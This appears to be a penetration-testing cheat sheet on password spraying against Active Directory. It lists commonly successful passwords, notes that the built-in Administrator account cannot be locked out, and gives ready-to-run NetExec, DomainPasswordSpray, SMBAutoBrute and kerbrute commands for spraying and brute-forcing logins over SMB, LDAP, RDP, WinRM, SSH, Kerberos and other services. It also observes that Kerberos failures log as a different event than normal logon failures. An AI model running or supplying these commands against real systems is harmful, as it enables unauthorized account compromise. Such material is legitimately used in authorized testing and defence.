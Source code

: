 # Password - Spraying

Password spraying refers to the attack method that takes a large number of usernames and loops them with a single password. 

> The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates. 

Most of the time the best passwords to spray are :

- Passwords: `P@ssw0rd01`, `Password123`, `Password1`,
- Common password: `Welcome1`/`Welcome01`, `Hello123`, `mimikatz`
- $Companyname1:`$Microsoft1`
- SeasonYear: `Winter2019*`, `Spring2020!`, `Summer2018?`, `Summer2020`, `July2020!`
- Default AD password with simple mutations such as number-1, special character iteration (`*`,`?`,`!`,`#`)
- Empty Password: NT hash is `31d6cfe0d16ae931b73c59d7e0c089c0`

:warning: be careful with the account lockout !


## Spray a pre-generated passwords list

* Using [Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)
  ```powershell
  nxc smb 10.0.0.1 -u /path/to/users.txt -p Password123
  nxc smb 10.0.0.1 -u Administrator -p /path/to/passwords.txt
  
  nxc smb targets.txt -u Administrator -p Password123 -d domain.local
  nxc ldap targets.txt -u Administrator -p Password123 -d domain.local
  nxc rdp targets.txt -u Administrator -p Password123 -d domain.local
  nxc winrm targets.txt -u Administrator -p Password123 -d domain.local
  nxc mssql targets.txt -u Administrator -p Password123 -d domain.local
  nxc wmi targets.txt -u Administrator -p Password123 -d domain.local

  nxc ssh targets.txt -u Administrator -p Password123
  nxc vnc targets.txt -u Administrator -p Password123
  nxc ftp targets.txt -u Administrator -p Password123
  nxc nfs targets.txt -u Administrator -p Password123
  ```

* Using [hashcat/maskprocessor](https://github.com/hashcat/maskprocessor) to generate passwords following a specific rule
  ```powershell
  nxc smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
  ```

* Using [dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) to spray a password against all users of a domain.
  ```powershell
  Invoke-DomainPasswordSpray -Password Summer2021!
  Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
  ```

* Using [shellntel-acct/scripts/SMBAutoBrute](https://github.com/shellntel-acct/scripts/blob/master/Invoke-SMBAutoBrute.ps1).
  ```powershell
  Invoke-SMBAutoBrute -PasswordList "jennifer, yankees" -LockoutThreshold 3
  Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
  ```


## BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of `0` indicates that the value is unknown.

```powershell
$ netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```


## Kerberos pre-auth bruteforcing

Using [ropnop/kerbrute](https://github.com/ropnop/kerbrute), a tool to perform Kerberos pre-auth bruteforcing.

> Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event (4625)**, but rather with specific logs to **Kerberos pre-authentication failure (4771)**.

* Username bruteforce
  ```powershell
  ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
  ```
* Password bruteforce
  ```powershell
  ./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
  ```
* Password spray
  ```powershell
  ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
  ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
  ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
  ```